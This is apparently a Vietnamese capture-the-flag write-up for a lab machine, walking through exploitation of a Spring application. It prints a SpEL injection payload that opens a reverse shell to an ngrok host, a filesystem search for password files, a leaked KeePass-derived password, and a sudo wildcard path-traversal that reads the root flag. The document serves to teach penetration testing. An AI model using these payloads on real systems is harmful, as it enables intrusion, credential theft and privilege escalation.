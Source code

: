 ﻿Port scan:

![enter image description here](https://imgur.com/3ZwlTPf.png)

![enter image description here](https://imgur.com/O3bOYyi.png)

Truy cập vào target port 6969 bằng web browser, nhận ra port 6969 chạy HTTP.
TCP/6969 - HTTP:

![enter image description here](https://imgur.com/qPTCxvZ.png)

URL Fuzzing with Gobuster:

![enter image description here](https://imgur.com/IrUs1O0.png)

Truy cập /CHANGELOG.md:

![enter image description here](https://imgur.com/lgpDa43.png)

Page source:

![enter image description here](https://imgur.com/aBaDcSP.png)

Ở đây có 02 chỗ cần lưu ý:
1 là đoạn `change password to whitehat as default`.
2 là đoạn `you can view more <a href="/s0urc3"> here</a>` (ở page source, hidden trên view).

Truy cập /s0urc3 vừa tìm được, tự động tải về 1 file source.zip. Giải nén file source.zip ra được 1 cấu trúc thư mục và các file source có vẻ giống cấu trúc của Java Springboot.
Tóm tắt những thông tin thú vị thu được từ source:

- Ngôn ngữ: Java.
- Framework: Springboot.
- DB: MongoDB.
- Server port: 6969.
- API endpoint: POST - /v1/user/get.

File UserController.java:

![enter image description here](https://imgur.com/dQrj7iG.png)

API POST - /v1/user/get gọi đến method readUserId. Trong readUserId thực hiện truyền id (đã được URL decode) vào method findByUserNameLike của class UserRepository.

File UserRepository.java:

![enter image description here](https://imgur.com/IVMO2MB.png)

Ban đầu mình nghĩ đến NoSQL injection nhưng không khả thi. Sau một hồi tìm kiếm thì mình thấy đoạn code này có thể dính lỗ hổng SpEL (Spring Expression Language) - CVE-2022-22980. Lỗ hổng này có thể dẫn đến RCE. Lợi dụng việc đó để spawn reverse shell kết nối về local. Điểm trigger đã xác định được là API endpoint POST /v1/user/get, payload truyền vào tham số id.

Mở listener ở local. Mình sẽ dùng ngrok để thực hiện port forward từ local ra public. Vì vậy trong payload tạo reverse shell sẽ chứa địa chỉ của ngrok.
Payload:

```
T(java.lang.Runtime).getRuntime().exec("nc 0.tcp.ap.ngrok.io 13186 -e /bin/sh").waitFor()
```

URL encode payload và gửi request bằng Burp Suite:

![enter image description here](https://imgur.com/LKmGjzK.png)

Ở local nhận được kết nối reverse shell:

![enter image description here](https://imgur.com/yHy6qOl.png)

![enter image description here](https://imgur.com/h8rH0e7.png)

Well. Đã truy cập được vào target. 
User flag:

![enter image description here](https://imgur.com/PKMduwl.png)

Lướt qua một vòng target, mình nhận thấy target dùng busybox và busybox ở đây thì không hỗ trợ nhiều command lắm. 

![enter image description here](https://imgur.com/gl9Rv2y.png)

Mình cố gắng để spawn interactive shell nhưng không được (hoặc vì mình không tìm ra nhưng người khác có thể). 

Mục tiêu tiếp theo là lấy root flag. Check sudo right:

![enter image description here](https://imgur.com/DJECFD6.png)

User spring có thể chạy `sudo /user/bin/node /usr/local/scripts/*.js` với quyền root. Để làm được điều đó thì phải có mật khẩu của user spring. Hướng tiếp theo là đi tìm password của user spring. Tìm các file chứa từ khóa password trong tên:

`find / -iname *password* 2>/dev/null`

Kết quả:

![enter image description here](https://imgur.com/cgn5FUG.png)

File /opt/Passwords.kdbx có vẻ khả nghi. Phần mở rộng kdbx là file data được tạo bởi KeePass Password Safe (một phần mềm quản lý password). Lấy nó về local bằng cách encode base64 -> copy về local -> decode ở local (ở local mình đặt tên là pass.kdbx).

Mở file pass.kdbx ở local bằng keepass2. Một cửa sổ hiện lên yêu cầu nhập master password:

![enter image description here](https://imgur.com/aoarcex.png)

Nhớ lại khi truy cập vào /CHANGELOG.md ở HTTP, nội dung của trang có đề cập đến "change password to whitehat as default" (đã lưu ý ở trên). Thử nhập "whitehat" vào Master Passsword và thành công mở được file. 

![enter image description here](https://imgur.com/9nO3ldx.png)

Nội dung trong này là credentials của user spring. Lấy password bằng cách click copy password. Password của user spring là: `5DymSe0rbLE491QsCLgm`

Vì user spring không có quyền write vào /usr/local/scripts nên không thể tạo file chứa payload trong đó. Ở đây mình sẽ tạo 1 file chứa payload trong /tmp/t và lợi dụng dấu wildcard (dấu *) trong đường dẫn trên để gọi đến file chứa payload bằng lỗ hổng path traversal.

Payload đọc root flag: 

`process.stdout.write(require("fs").readFileSync("/root/root.txt"))` 

Tạo file /tmp/t/read.js với nội dung là payload trên. Thực thi file read.js bằng sudo để đọc được /root/root.txt:

![enter image description here](https://imgur.com/1ojKPH6.png)

Phân tích kỹ hơn về câu lệnh 
```
echo '5DymSe0rbLE491QsCLgm' | sudo -S /usr/bin/node /usr/local/scripts/../../../tmp/t/read.js
```

Đầu tiên, vì user spring có thể sudo /usr/bin/node /usr/local/scripts/*.js , truyền vào dấu wildcard ../../../tmp/t/read.js vẫn được tính là hợp lệ. Tiếp theo, vì ở đây đang là non-interactive shell nên nếu dùng sudo như bình thường thì sẽ không nhập được password khi sudo. Giải quyết vấn đề này bằng cách sử dụng echo \<password\> và pipe sang sudo -S để sudo đọc password từ stdin (thứ mà vừa pipe từ echo sang). 

Root flag ở đây là:

![enter image description here](https://imgur.com/otRy3BK.png)

P.S. Tuy đã lấy được đủ user flag và root flag nhưng mình vẫn chưa hài lòng vì chưa thành công spawn root shell. Nếu box mở thêm lâu hơn nữa thì có thể mình sẽ tìm cách để spawn root shell. Dù sao lấy được root flag cũng là cách để chứng minh đã leo thang đặc quyền thành công.

Happy Hacking!

